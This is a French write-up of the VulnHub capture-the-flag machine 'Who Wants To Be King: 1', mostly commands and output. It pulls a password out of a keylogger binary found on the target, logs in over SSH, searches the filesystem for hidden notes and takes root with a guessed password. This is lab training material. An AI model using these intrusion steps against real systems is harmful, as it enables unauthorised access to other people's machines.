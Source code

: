 # Solution du CTF Who Wants To Be King: 1

[Who Wants To Be King: 1](https://vulnhub.com/entry/who-wants-to-be-king-1,610/) est un CTF pour débutant. La description annonce que Google est notre ami... ça promet.

Sans spoiler, si vous êtes bloqués sur un problème de mot de passe, réferez vous à [game-of-thrones/characters.json](https://github.com/jeffreylancaster/game-of-thrones/blob/master/data/characters.json) :p

```
Nmap scan report for 192.168.56.57
Host is up (0.00019s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7f552d63a8864f901f053cc99f40b3f2 (RSA)
|   256 e97111ed17fa4806a76b5bb60e1b11b8 (ECDSA)
|_  256 db7442c437c3aea05c3026cb1aef7652 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 31K   2020-12-01 11:23  skeylogger
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

Toute l'énumération est résumée ici ! On télécharge donc le binaire qui est juste la version compilée de [simple-key-logger: A simple keylogger for Linux systems](https://github.com/gsingh93/simple-key-logger).

On applique la commande `strings` dessus et on finit par trouver une chaine étrange :

```
logfile
device
Could not determine keyboard device file
ZHJhY2FyeXMK
Usage: skeylogger [OPTION]
Logs pressed keys
  -h, --help            Displays this help message
  -v, --version         Displays version information
  -l, --logfile         Path to the logfile
  -d, --device          Path to device file (/dev/input/eventX)
Simple Key Logger version 0.0.1
```

Le base64 se décode en `dracarys`. Je connais la série *Game of Thrones* donc je sais au moins quel est l'univers en rapport. On pourrait récupérer la liste des personnages et appliquer un brute force SSH mais le login attendu est vraisemblablement `daenerys` :

```shellsession
$ ssh daenerys@192.168.56.57
daenerys@192.168.56.57's password: 
Last login: Tue Dec  1 11:38:40 2020 from 192.168.0.105
daenerys@osboxes:~$ id
uid=1001(daenerys) gid=1001(daenerys) groups=1001(daenerys)
daenerys@osboxes:~$ sudo -l
Matching Defaults entries for daenerys on osboxes:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, pwfeedback

User daenerys may run the following commands on osboxes:
    (root) NOPASSWD: /usr/bin/mint-refresh-cache
    (root) NOPASSWD: /usr/lib/linuxmint/mintUpdate/synaptic-workaround.py
    (root) NOPASSWD: /usr/lib/linuxmint/mintUpdate/dpkg_lock_check.sh
```

Aucun des fichiers dans cette liste n'existe.

Dans le dossier de l'utilisateur se trouve un fichier `secret` avec le contenu suivant :

> find home, pls

C'est toujours difficile de retrouver un fichier qui n'a pas de particularités (contrairement à un binaire setuid ou un exécutable appartenant à root mais modifiable) dans un système de fichiers...

Je remarque que le fichier `secret` précédent ainsi que le fichier `skeylogger` du début datent tous les deux du 1er décembre 2020. Je vais donc utiliser find pour obtenir la liste des fichiers créés ce jour (il y en a quand même un paquet) :

```shellsession
daenerys@osboxes:~$ find . -type f -newermt 2020-12-01 ! -newermt 2020-12-02
./.bashrc
./.gtkrc-2.0
./.bash_logout
./.bash_history
--- snip ---
./secret
./.local/share/daenerys.zip
./.local/share/flatpak/.changed
--- snip ---
```

Qu'il y a t-il dans ce fichier zip ?

```shellsession
daenerys@osboxes:~$ unzip  ./.local/share/daenerys.zip
Archive:  ./.local/share/daenerys.zip
 extracting: djkdsnkjdsn             
daenerys@osboxes:~$ file djkdsnkjdsn 
djkdsnkjdsn: ASCII text
daenerys@osboxes:~$ cat djkdsnkjdsn 
/usr/share/sounds/note.txt

daenerys@osboxes:~$ cat /usr/share/sounds/note.txt
I'm khal.....
```

Cette fois il s'agit de *Khal Drogo*. Ici le mot de passe pour root est khaldrogo :

```shellsession
daenerys@osboxes:~$ su root
Password: 
root@osboxes:/home/daenerys# cd /root/
root@osboxes:~# ls
nice.txt
root@osboxes:~# cat nice.txt 
¡Congratulation!


You have a good day!



aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj1nTjhZRjBZZmJFawo=
```

Au final un CTF sans grand intérêt qui ne vous apprend rien de particulier.

*Publié le 16 novembre 2022*
